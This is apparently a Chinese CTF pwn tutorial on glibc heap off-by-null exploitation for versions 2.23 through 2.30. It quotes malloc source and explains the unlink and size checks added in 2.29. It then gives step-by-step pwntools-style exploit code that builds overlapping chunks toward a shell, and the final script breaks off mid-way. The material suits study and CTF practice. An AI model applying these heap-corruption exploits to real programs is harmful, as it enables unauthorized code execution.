| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27  28  29  30  31  32  33  34  35  36  37  38  39  40  41  42  43  44  45  46  47  48  49  50  51  52  53  54  55  56 | `/``/``2.23` `when size>global_max_fast`    `/``*` `consolidate backward` `*``/`  `if` `(!prev_inuse(p)) {`  `prevsize` `=` `p``-``>prev_size;`  `size` `+``=` `prevsize;`  `p` `=` `chunk_at_offset(p,` `-``((``long``) prevsize));`  `unlink(av, p, bck, fwd);`  `}`      `if` `(nextchunk !``=` `av``-``>top) {`  `/``*` `get` `and` `clear inuse bit` `*``/`  `nextinuse` `=` `inuse_bit_at_offset(nextchunk, nextsize);`    `/``*` `consolidate forward` `*``/`  `if` `(!nextinuse) {`  `unlink(av, nextchunk, bck, fwd);`  `size` `+``=` `nextsize;`  `}`        `/``*` `Take a chunk off a` `bin` `list` `*``/`  `#define unlink(AV, P, BK, FD) {`  `FD` `=` `P``-``>fd;`  `BK` `=` `P``-``>bk;`  `if` `(__builtin_expect (FD``-``>bk !``=` `P || BK``-``>fd !``=` `P,` `0``))`  `malloc_printerr (check_action,` `"corrupted double-linked list"``, P, AV);`  `else` `{`  `FD``-``>bk` `=` `BK;`  `BK``-``>fd` `=` `FD;`  `if` `(!in_smallbin_range (P``-``>size)`  `&& __builtin_expect (P``-``>fd_nextsize !``=` `NULL,` `0``))`  `{`  `if` `(__builtin_expect (P``-``>fd_nextsize``-``>bk_nextsize !``=` `P,` `0``)`  `|| __builtin_expect (P``-``>bk_nextsize``-``>fd_nextsize !``=` `P,` `0``))`  `malloc_printerr (check_action,`  `"corrupted double-linked list (not small)"``,`  `P, AV);`  `if` `(FD``-``>fd_nextsize` `=``=` `NULL) {`  `if` `(P``-``>fd_nextsize` `=``=` `P)`  `FD``-``>fd_nextsize` `=` `FD``-``>bk_nextsize` `=` `FD;`  `else` `{`  `FD``-``>fd_nextsize` `=` `P``-``>fd_nextsize;`  `FD``-``>bk_nextsize` `=` `P``-``>bk_nextsize;`  `P``-``>fd_nextsize``-``>bk_nextsize` `=` `FD;`  `P``-``>bk_nextsize``-``>fd_nextsize` `=` `FD;`  `}`  `}` `else` `{`  `P``-``>fd_nextsize``-``>bk_nextsize` `=` `P``-``>bk_nextsize;`  `P``-``>bk_nextsize``-``>fd_nextsize` `=` `P``-``>fd_nextsize;`  `}`  `}`  `}`  `}` |

为了方便，依据物理地址相邻来命名如下：


即当size大于global\_max\_fast且不是mmap出来的chunk时，就会进入判断。所以这里我们进行释放用的chunk的大小就必须要大于global\_max\_fast才行，否则就是改掉了pre\_inuse位也是直接进入fastbin，不会进入判断的。

- 先依据当前chunk(chunkP)的pre\_inuse位来判断前一个chunk(preChunk)是否处于释放状态，是则进入unlink，将前一个chunk取出
- 然后判断下一个chunk(nextChunk)是否是top\_chunk，是则直接与top\_chunk合并。
- 若nextChunk不为top\_chunk，再判断下一个Chunk的再下一个chunk的pre\_inuse位来判断nextChunk是否处于释放状态，若是则进入unlink。

然后unlink中就不细说，就是双向循环链表解链的过程，依据fd和bk来查找并解链，但是我们的off-by-null通常不会涉及到nextsize位的使用，所以基本不用看后面的。需要注意的是，由于这里会检查，即：

|  |  |
| --- | --- |
| 1  2 | `if` `(__builtin_expect (FD``-``>bk !``=` `P || BK``-``>fd !``=` `P,` `0``))`  `malloc_printerr (check_action,` `"corrupted double-linked list"``, P, AV);` |

所以我们需要将进入unlink的chunk的fd和bk来进行伪造或者干脆直接释放使其直接进入unsortedbin中完成双向链表的加持。这里先讲放入unsortedbin中来获取fd和bk的方法，伪造的方法一般用在2.29及以上的高版本中，因为那时候的unlink加入了关于size位的检查，不能简单得伪造fd和bk。

其次，这里还需要明白一个寻找chunk的原理。

- 寻找preChunk：preChunk\_addr = chunkP\_addr - chunkP->pre\_size
- 寻找nextChunk：nextChunk\_addr = chunkP\_addr + chunkP->size

即以下源码，这个一直没有变化过：

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12 | `/``*` `Ptr to previous physical malloc_chunk.  Only valid` `if` `!prev_inuse (P).` `*``/`  `#define prev_chunk(p) ((mchunkptr) (((char *) (p)) - prev_size (p)))`    `/``*` `Ptr to` `next` `physical malloc_chunk.` `*``/`  `#define next_chunk(p) ((mchunkptr) (((char *) (p)) + chunksize (p)))`    `/``*` `Get size, ignoring use bits` `*``/`  `#define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))`    `/``*` `extract p's inuse bit` `*``/`  `#define inuse(p)                                  \`  `((((mchunkptr) (((char` `*``) (p))` `+` `chunksize (p)))``-``>mchunk_size) & PREV_INUSE)` |

所以，如果我们可以伪造pre\_size和in\_use位，就能触发向上任意寻找一个满足fd和bk为双向链表的chunk，从而将中间所有的chunk都一并合并为一个Chunk释放掉。(向下合并也可以的，不过一般不常使用)


这里就是通过释放chunkP，依据pre\_size向上寻找到原本已经在unsortedbin中的preChunk，其FD和BK已经组成双向循环链表，可以绕过检查，所以释放ChunkP之后preChunk+OverlapChunk+chunkP都进入到unsortedbin中。但是OverlapChunk本身其实并没有被释放，我们再从unsortedbin中申请切割出preChunk大小的chunk，再申请就可以得到OverlapChunk。这样我们就有两个指针都指向OverlapChunk，从而伪造出UAF，之后我们就可以通过OverlapChunk来getshell了。

## 1.常用布局

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7 | `add_malloc(``0xf8``,``'\x00'``*``0xf8``)` `#0x1`  `add_malloc(``0x68``,``'\x00'``*``0x68``)` `#0x2`  `add_malloc(``0xf8``,``'\x00'``*``0xf8``)` `#0x3`  `add_malloc(``0x68``,``'\x00'``*``0x68``)` `#0x4`  `free(``0x1``)`  `edit(``0x2``,``0x70``,``'\x00'``*``0x60``+``p64(``0x70``+``0x100``)``+``p16(``0x100``))`  `free(``0x3``)` |

off-by-null在调试中不太好搞，所以我就借用堆溢出来假设存在off-by-null，将chunk3原本的size位0x101通过off-by-null变成0x100即可。

## 2.注意事项

### (1)顺序

此外需要注意的是，需要先释放chunk1，再溢出修改chunk3。不然如果先修改chunk3，那么释放chunk1的时候，寻找chunk1的nextChunk即chunk2，判断chunk2是否处于释放状态时，会找到chunk3，依据pre\_inuse位发现chunk2已经处于释放状态，那么尝试进入unlink合并，但是这里的chunk2的fd和bk并没有组成双向循环链表，所以会出错。

### (2)size位的设置

- 0x100：这里注意到上面的布局中size位为0x100和0x70，这里的0x100就是为了通过off-by-null将0x101变成0x100设置的。当然设置为0x201，0x301通常也是一样的。
- 0x70：这里就通常是为了方便打fastbin attack，从\_malloc\_hook处构造0x7f字节错位用的。

# 二、更新换代

## 1.Glibc2.27

这里也不是特指2.27，而指的是Glibc2.29以下的存在tcache的版本，这类版本通常需要填充满tcache再进行释放，也不需要多讲。

## 2.Glibc2.29

从这个版本开始，off-by-null由于加入的检查，引入了好几种全新的利用方式。

### (1)\_int\_free中的变化

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8 | `if` `(!prev_inuse(p)) {`  `prevsize` `=` `prev_size (p);`  `size` `+``=` `prevsize;`  `p` `=` `chunk_at_offset(p,` `-``((``long``) prevsize));`  `if` `(__glibc_unlikely (chunksize(p) !``=` `prevsize))`  `malloc_printerr (``"corrupted size vs. prev_size while consolidating"``);`  `unlink_chunk (av, p);`  `}` |

加入的检查是

|  |  |
| --- | --- |
| 1  2 | `if` `(__glibc_unlikely (chunksize(p) !``=` `prevsize))`  `malloc_printerr (``"corrupted size vs. prev_size while consolidating"``);` |

这里的p因为`p = chunk_at_offset(p, -((long) prevsize));`已经变成了preChunk。所以这里就是检查preChunk->size是否等于chunkP->pre\_size。按照上面那张图的逻辑，preChunk的size为0x101，chunkP的pre\_size为0x170，两个不等于，根本就无法进入unlink中，直接崩掉。


### (2)unlink变化

首先unlink从宏定义变成了全局函数定义，名字也从unlink变成了unlink\_chunk，但实际内容没有变太多，只是加入了一些检查：

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27  28  29  30  31  32  33  34  35  36  37  38  39  40  41 | `/``*` `Take a chunk off a` `bin` `list``.` `*``/`  `static void`  `unlink_chunk (mstate av, mchunkptr p)`  `{`  `if` `(chunksize (p) !``=` `prev_size (next_chunk (p)))`  `malloc_printerr (``"corrupted size vs. prev_size"``);`    `mchunkptr fd` `=` `p``-``>fd;`  `mchunkptr bk` `=` `p``-``>bk;`    `if` `(__builtin_expect (fd``-``>bk !``=` `p || bk``-``>fd !``=` `p,` `0``))`  `malloc_printerr (``"corrupted double-linked list"``);`    `fd``-``>bk` `=` `bk;`  `bk``-``>fd` `=` `fd;`  `if` `(!in_smallbin_range (chunksize_nomask (p)) && p``-``>fd_nextsize !``=` `NULL)`  `{`  `if` `(p``-``>fd_nextsize``-``>bk_nextsize !``=` `p`  `|| p``-``>bk_nextsize``-``>fd_nextsize !``=` `p)`  `malloc_printerr (``"corrupted double-linked list (not small)"``);`    `if` `(fd``-``>fd_nextsize` `=``=` `NULL)`  `{`  `if` `(p``-``>fd_nextsize` `=``=` `p)`  `fd``-``>fd_nextsize` `=` `fd``-``>bk_nextsize` `=` `fd;`  `else`  `{`  `fd``-``>fd_nextsize` `=` `p``-``>fd_nextsize;`  `fd``-``>bk_nextsize` `=` `p``-``>bk_nextsize;`  `p``-``>fd_nextsize``-``>bk_nextsize` `=` `fd;`  `p``-``>bk_nextsize``-``>fd_nextsize` `=` `fd;`  `}`  `}`  `else`  `{`  `p``-``>fd_nextsize``-``>bk_nextsize` `=` `p``-``>bk_nextsize;`  `p``-``>bk_nextsize``-``>fd_nextsize` `=` `p``-``>fd_nextsize;`  `}`  `}`    `}` |

加入的检查，就加了一个if语句：

|  |  |
| --- | --- |
| 1  2 | `if` `(chunksize (p) !``=` `prev_size (next_chunk (p)))`  `malloc_printerr (``"corrupted size vs. prev_size"``);` |

即在unlink时会检查nextChunk的pre\_size是否等于chunkP的size。

按照之前那张图的逻辑，进入unlink中时preChunk的size为0x100，preChunk的nextChunk，即overlapChunk的pre\_size为0x100，相等，可以满足要求，没啥大用，但是之后提出的绕过手段也是需要绕过这个检查的。


▲后面的更高版本，到2.33都没变化，也就不提了。只是2.32中的指针异或可能需要注意一下，但是之后的绕过手段一般是基于unsortedbin，smallbin，largebin来绕过，不存在指针异或的情况，所以也不用太在意。

# 三、高版本花式绕过

这里将的是2.29及以上的版本

## 第一种

这个之前写过，参考这篇文章：

[2.29下的off-by-null | PIG-007](https://bbs.kanxue.com/elink@8d0K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.)

或者t1an5g师傅的文章：

https://bbs.pediy.com/thread-257901.htm#msg\_header\_h2\_2

当然ex师傅的原始解析也很好：

eadK9s2c8@1M7q4)9K6b7g2)9J5c8W2)9J5c8X3u0D9L8$3N6Q4x3X3g2W2L8$3&6W2N6#2)9J5k6h3y4F1i4K6u0r3j5i4u0U0K9r3W2$3k6i4y4Q4x3V1j5I4x3U0x3K6

但是这个需要爆破半个字节，也不能对size做太多的限制，且chunk需要申请大概有24个，所以看个人需要。

## 第二种

这个也写过，参考这篇：

[2.29-2.32下的off-by-null | PIG-007](https://bbs.kanxue.com/elink@fb2K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2)9J5k6o6u0Q4x3X3f1K6x3W2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.)

当然我也是参考WJH师傅的：

[glibc 2.29-2.32 off by null bypass - 安全客，安全资讯平台 (anquanke.com)](https://bbs.kanxue.com/elink@f29K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6y4U0l9%4z5l9`.`.)

这个不需要爆破，但是对size的限制不能太严格，需要largebin的size。

## 第三种

这个还没写过总结，现在来，不过先贴下文章，init-0师傅的：

[堆漏洞利用（2.29以上glibc,off-by-null, 加了申请size限制） - 安全客，安全资讯平台 (anquanke.com)](https://bbs.kanxue.com/elink@c57K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6x3e0b7I4z5q4)9J5x3$3R3K6i4K6u0V1z5l9`.`.)

这种方法在size限制下也可以使用，文章中的限制是0xe8的堆块，真是将堆布局用到极高的水平。

▲先看最终的布局效果：


这样就能通过两项检查了：

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7 | `/``/``_int_free中`  `if` `(__glibc_unlikely (chunksize(p) !``=` `prevsize))`  `malloc_printerr (``"corrupted size vs. prev_size while consolidating"``);`    `/``/``unlink中`  `if` `(chunksize (p) !``=` `prev_size (next_chunk (p)))`  `malloc_printerr (``"corrupted size vs. prev_size"``);` |

### (1)前置布局：

由于init-0师傅的题目中，申请chunk是从0x3a0开始的，所以这里我就也以0x3a0开始：

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27 | `#get layout to let chunk0_addr = 0x****3a0`  `claim(``0x88``)``# 0-6            #1-7`  `claim(``0x98``)``# 7-13            #8-14`  `claim(``0xa8``)``# 14-20            #15-21`  `claim(``0xb8``)``# 21-27            #22-28`  `claim(``0xc8``)``# 28-34            #29-35`  `claim(``0xd8``)``# 35-41            #36-42`  `claim(``0xe8``)``# 42-48            #43-49`    `#--------------------------`  `add_malloc(``0x98``,``'\x00'``)``# 49                 #50`  `add_malloc(``0x98``,``'\x00'``)``# 50                 #51        0x****f900`  `add_malloc(``0x18``,``'\x00'``)``# 51                  #52     0x****f9a0`  `add_malloc(``0xa8``,``'\x00'``)``# 52     0             #53        0x****f9c0`  `add_malloc(``0xb8``,``'\x00'``)``# 53     1             #54        0x****fa70`  `add_malloc(``0xd8``,``'\x00'``)``# 54     2             #55        0x****fb30`  `add_malloc(``0xd8``,``'\x00'``)``# 55                 #56`  `add_malloc(``0xe8``,``'\x00'``)``# 56     3             #57        0x****fcf0`    `#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的`  `fakeChunk_nextChunk_preSize` `=` `p64(``0x200``)` `+` `p64(``0xe0``)`  `edit(``57``,``0x10``,fakeChunk_nextChunk_preSize)``# 56            #57`    `add_malloc(``0xe8``,``'\x00'``)``# 57    4             #58     0x****fde0`  `add_malloc(``0x98``,``'\x00'``)``# 58                 #59`  `add_malloc(``0xe8``,``'\x00'``)``# 59                 #60     0x****ff70`  `add_malloc(``0x18``,``'\x00'``)``# 60                 #61` |

### (2)填充tcache

并且将要利用的Chunk释放合并进入unsortedbin

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17 | `#free 0~48         #1~49`  `#-------------------------`  `#--tcache`  `for` `i` `in` `range``(``0``,``7``):` `#0x88`  `free(i``+``1``)`  `for` `i` `in` `range``(``14``,``21``):``#0xa8`  `free(i``+``1``)`  `for` `i` `in` `range``(``21``,``28``):``#0xb8`  `free(i``+``1``)`  `for` `i` `in` `range``(``35``,``42``):``#0xd8`  `free(i``+``1``)`  `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `#--tcache`    `for` `i` `in` `range``(``52``,``57``):` `#52~56                  #53~57  merge into unsortedbin`  `free(i``+``1``)` |


|  |  |
| --- | --- |
| 1  2 | `graph TD;`  `0``(chunk53<br>``0xa8``<br>``0x``*``*``*``*``9c0``)``-``-``>``1``(chunk54<br>``0xb8``)``-``-``>``2``(chunk55<br>``0xd8``)``-``-``>``3``(chunk56<br>``0xd8``)``-``-``>``4``(chunk57<br>``0xe8``<br>``0x``*``*``*``*``cf0)` |

### (3)重构53~57结构为97~101

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21 | `#---------------------------`  `# empty tcache`  `claim(``0x88``)` `#62~68`  `claim(``0xa8``)` `#69~75`  `claim(``0xb8``)` `#76~82`  `claim(``0xd8``)` `#83~89`  `claim(``0xe8``)` `#90~96`  `#---------------------------`    `#---------------------------------------------------------------- 上面是一个大的unsorted bin`  `#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配`  `add_malloc(``0x98``,``'\x00'``)``# 52     #97      #0x****9c0`  `add_malloc(``0x98``,``'\x00'``)``# 53     #98        #0x****A60`    `fake_chunk_size` `=` `0x98` `*` `"a"` `+` `p16(``0x200``)`  `#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200`  `#changing largebinChunk_size will not cause abort`  `edit(``98``,``0x98``+``0x2``,fake_chunk_size)``#53 #98`  `add_malloc(``0x88``,``'\x00'``)``#54     #99     #0x****B00`  `add_malloc(``0x88``,``'\x00'``)``#55  #100     #0x****B90`  `add_malloc(``0xd8``,``'\x00'``)``#56  #101     #0x****C70` |

重构之后如下

|  |  |
| --- | --- |
| 1  2 | `graph TD;`  `0``(chunk97<br>``0x98``<br>``0x``*``*``*``*``9c0``)``-``-``>``1``(chunk98<br>``0x98``)``-``-``>``2``(chunk99<br>``0x88``)``-``-``>``3``(chunk100<br>``0x88``)``-``-``>``4``(chunk101<br>``0xd8``<br>``0x``*``*``*``*``cf0)``-``-``>``5``(``0xe0``碎片)` |

那么实际上其实原先的0x420被申请了0x340，还有一部分0xe0没有被申请出来。


### (4)构造preChunk的fd和bk

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15 | `#------tcache`  `for` `i` `in` `range``(``7``,``14``):``#0x98`  `free(i``+``1``)`  `for` `i` `in` `range``(``0``,``7``):``#0x88`  `free(i``+``1``)`  `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `#------tcache`      `free(``51``)``#0x98     #50      #51 #0x****f900`  `#let 99->fd = chunk51_addr(0x****f900)`  `free(``99``)``#0x88      #54     #99`  `#let 99->bk = chunk60_addr(0x****ff70)`  `free(``60``)``#0xe8     #59     #60 #0x****ff70` |


### (5)再重构97~101为97->124->132->134

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25 | `free(``98``)``#0x98     #53     #98`    `#---------------add back`  `claim(``0x88``)` `#102~108`  `claim(``0x98``)` `#109~115`  `claim(``0xe8``)` `#116~122`  `#---------------add back`    `#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块`  `#之后依据大小适配原则将60分配回来给123`  `add_malloc(``0xd8``,``'\x00'``)``# 0x32        #123 0x****ff70,实际大小为0xf0`  `#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中`  `add_malloc(``0xb8``,``'\x00'``)``# 0x35          #124 0x****fa60`    `for` `i` `in` `range``(``0``,``7``):``#0x88`  `free(i``+``1``)`  `#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块`  `free(``100``)` `#55     #100`    `claim(``0x88``)` `#125~131`    `#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中`  `add_malloc(``0xb8``,``'\x00'``)``#0x36     #132     0x****fb20`  `add_malloc(``0x98``,``'\x00'``)``#0x37      #133    0x****f900`  `add_malloc(``0x38``,``'\x00'``)``#0x3b     #134     0x****fbe0` |

重构之后如下

|  |  |
| --- | --- |
| 1  2 | `graph TD;`  `0``(chunk97<br>``0x98``<br>``0x``*``*``*``*``f9c0)``-``-``>``1``(chunk124<br>``0xb8``<br>chunk99被包含<br>``0x``*``*``*``*``fa60)``-``-``>``2``(chunk132<br>``0xb8``<br>``0x``*``*``*``*``fb20)``-``-``>``3``(chunk134<br>``0x38``<br>``0x``*``*``*``*``fbe0)``-``-``>``4``(``0xe0``碎片)` |

### (6)修复FD->bk和BK->fd

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14 | `#------tcache`  `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `for` `i` `in` `range``(``7``,``14``):``#0x98`  `free(i``+``1``)`  `for` `i` `in` `range``(``21``,``28``):``#0xb8`  `free(i``+``1``)`  `#------tcache`    `#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)`  `free(``133``)` `#0x37     #133     0x****f900`  `free(``132``)` `#0x36      #132     0x****fb20`  `#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)`  `free(``123``)` `#0x32     #123      0x****ff70` |

### (7)再重构为97->124->157->134

方便将`0x****ff70`和`0x****f900`的对于fd,bk进行off-by-null，使得0xb20变为0xb00。

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27  28  29  30  31  32  33  34  35  36  37  38  39  40  41 | `free(``59``)` `#58        #59        0x****fed0`  `#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)`    `claim(``0x98``)` `#135~141`  `claim(``0xb8``)` `#142~148`  `claim(``0xe8``)` `#149~155`    `add_malloc(``0xc8``,``'\x00'``)` `#0x32         #156     0x****fed0`  `add_malloc(``0xb8``,``'\x00'``)` `#0x36         #157     0x****fb20`  `add_malloc(``0xb8``,``'\x00'``)` `#0x37          #158    0x****ffa0`  `add_malloc(``0x98``,``'\x00'``)` `#58          #159     0x****f900`    `#--top_chunk`  `add_malloc(``0x98``,``'\x00'``)` `#0x3d             #160`  `add_malloc(``0x98``,``'\x00'``)` `#0x3e             #161`  `add_malloc(``0x18``,``'\x00'``)` `#0x3f             #162`    `#------tcache`  `for` `i` `in` `range``(``7``,``14``):``#0x98`  `free(i``+``1``)`  `for` `i` `in` `range``(``21``,``28``):``#0xb8`  `free(i``+``1``)`  `#------tcache`      `free(``161``)` `#0x98     #0x3e         #161`  `free(``159``)` `#0x98     #58          #159     0x****f900`  `free(``157``)` `#0xb8     #0x36         #157`  `free(``50``)` `#0x98     #49         #50     0x****f860`  `#其中159和50合并为0x140大小的块放入unsortedbin中`  `#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120`    `claim(``0xb8``)` `#163~169`  `claim(``0x98``)` `#170~176`  `#----------------------------------------------------`  `add_malloc(``0xb8``,``'\x00'``)` `#49     #177`  `add_malloc(``0x98``,``'\x00'``)` `#0x36      #178`    `#切割0x140的块`  `add_malloc(``0xc8``,``'\x00'``)``#0x3a     #179     0x****f860`  `add_malloc(``0x68``,``'\x00'``)``#0x3e       #180` |

现在就可以通过chunk179来将`0x****f900`中的bk给改掉。

通过chunk156来将`0x****ff70`中的fd给改掉。

### (8)利用off-by-null得到最终布局

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11 | `partial_null_write` `=` `0x98``*``'b'`  `partial_null_write` `+``=` `p64(``0xf1``)`  `edit(``156``,``0x98``+``0x8``+``0x1``,partial_null_write``+``'\x00'``)` `#0x32      #156`    `partial_null_write` `=` `0xa8``*``'c'`  `edit(``179``,``0xa8``+``0x1``,partial_null_write` `+` `'\x00'``)` `#0x3a         #179`    `#伪造pre_size`  `fake_chunk_size` `=` `0x98``*``'d'`  `fake_chunk_size` `+``=` `p64(``0x2e1``)`  `edit(``124``,``0x98``+``0x8``,fake_chunk_size)` `#0x35     #124` |

### (9)触发off-by-null

|  |  |
| --- | --- |
| 1  2  3 | `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `free(``58``)` |

### ▲总结

①利用unsortedbin成链机制，合并unsortedbin中的chunk并且切割，这样就能保留住FD和BK了。

②再利用unsortedbin成链和切割的机制，就能修改到对应preChunk的FD和BK了，修改最后一个字节为\x00即可。

③由于2.29之后的添加的两项检查，所以需要注意的是伪造unsortedbinChunk的size时，也要伪造nextChunk的pre\_size和pre\_inuse位。

④太他丫的麻烦了，有这时间布局还不如肝其他题.....

再贴个汇总的exp，基于libc2.30，自己的题目：

|  |  |
| --- | --- |
| 1  2  3  4  5  6  7  8  9  10  11  12  13  14  15  16  17  18  19  20  21  22  23  24  25  26  27  28  29  30  31  32  33  34  35  36  37  38  39  40  41  42  43  44  45  46  47  48  49  50  51  52  53  54  55  56  57  58  59  60  61  62  63  64  65  66  67  68  69  70  71  72  73  74  75  76  77  78  79  80  81  82  83  84  85  86  87  88  89  90  91  92  93  94  95  96  97  98  99  100  101  102  103  104  105  106  107  108  109  110  111  112  113  114  115  116  117  118  119  120  121  122  123  124  125  126  127  128  129  130  131  132  133  134  135  136  137  138  139  140  141  142  143  144  145  146  147  148  149  150  151  152  153  154  155  156  157  158  159  160  161  162  163  164  165  166  167  168  169  170  171  172  173  174  175  176  177  178  179  180  181  182  183  184  185  186  187  188  189  190  191  192  193  194  195  196  197  198  199  200  201  202  203  204  205  206  207  208  209  210  211  212  213  214  215  216  217  218  219  220 | `#有size限制，对应索引往后移即可`  `add_malloc(``0x1000``-``0x290``+``0x3000``-``0x8``+``0x3a0``,``'PIG007NB'``)`    `#old             #new`  `#get layout to let chunk0_addr = 0x****3a0`  `claim(``0x88``)``# 0-6            #1-7`  `claim(``0x98``)``# 7-13            #8-14`  `claim(``0xa8``)``# 14-20            #15-21`  `claim(``0xb8``)``# 21-27            #22-28`  `claim(``0xc8``)``# 28-34            #29-35`  `claim(``0xd8``)``# 35-41            #36-42`  `claim(``0xe8``)``# 42-48            #43-49`    `#--------------------------`  `add_malloc(``0x98``,``'\x00'``)``# 49                 #50`  `add_malloc(``0x98``,``'\x00'``)``# 50                 #51        0x****f900`  `add_malloc(``0x18``,``'\x00'``)``# 51                  #52     0x****f9a0`  `add_malloc(``0xa8``,``'\x00'``)``# 52     0             #53        0x****f9c0`  `add_malloc(``0xb8``,``'\x00'``)``# 53     1             #54        0x****fa70`  `add_malloc(``0xd8``,``'\x00'``)``# 54     2             #55        0x****fb30`  `add_malloc(``0xd8``,``'\x00'``)``# 55                 #56`  `add_malloc(``0xe8``,``'\x00'``)``# 56     3             #57        0x****fcf0`    `#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的`  `fakeChunk_nextChunk_preSize` `=` `p64(``0x200``)` `+` `p64(``0xe0``)`  `edit(``57``,``0x10``,fakeChunk_nextChunk_preSize)``# 56            #57`    `add_malloc(``0xe8``,``'\x00'``)``# 57    4             #58     0x****fde0`  `add_malloc(``0x98``,``'\x00'``)``# 58                 #59`  `add_malloc(``0xe8``,``'\x00'``)``# 59                 #60     0x****ff70`  `add_malloc(``0x18``,``'\x00'``)``# 60                 #61`    `#free 0~48         #1~49`  `#-------------------------`  `#--tcache`  `for` `i` `in` `range``(``0``,``7``):` `#0x88`  `free(i``+``1``)`  `for` `i` `in` `range``(``14``,``21``):``#0xa8`  `free(i``+``1``)`  `for` `i` `in` `range``(``21``,``28``):``#0xb8`  `free(i``+``1``)`  `for` `i` `in` `range``(``35``,``42``):``#0xd8`  `free(i``+``1``)`  `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `#--tcache`    `for` `i` `in` `range``(``52``,``57``):` `#52~56                  #53~57  merge into unsortedbin`  `free(i``+``1``)`    `#---------------------------`  `# empty tcache`  `claim(``0x88``)` `#62~68`  `claim(``0xa8``)` `#69~75`  `claim(``0xb8``)` `#76~82`  `claim(``0xd8``)` `#83~89`  `claim(``0xe8``)` `#90~96`  `#---------------------------`    `#---------------------------------------------------------------- 上面是一个大的unsorted bin`  `#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配`  `add_malloc(``0x98``,``'\x00'``)``# 52     #97      #0x****9c0`  `add_malloc(``0x98``,``'\x00'``)``# 53     #98        #0x****A60`    `fake_chunk_size` `=` `0x98` `*` `"a"` `+` `p16(``0x200``)`  `#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200`  `#changing largebinChunk_size will not cause abort`  `edit(``98``,``0x98``+``0x2``,fake_chunk_size)``#53 #98`  `add_malloc(``0x88``,``'\x00'``)``#54     #99     #0x****B00`  `add_malloc(``0x88``,``'\x00'``)``#55  #100     #0x****B90`  `add_malloc(``0xd8``,``'\x00'``)``#56  #101     #0x****C70`      `#构造preChunk的fd和bk------------------------`  `#------tcache`  `for` `i` `in` `range``(``7``,``14``):``#0x98`  `free(i``+``1``)`  `for` `i` `in` `range``(``0``,``7``):``#0x88`  `free(i``+``1``)`  `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `#------tcache`      `free(``51``)``#0x98     #50      #51 #0x****f900`  `#let 99->fd = chunk51_addr(0x****f900)`  `free(``99``)``#0x88      #54     #99`  `#let 99->bk = 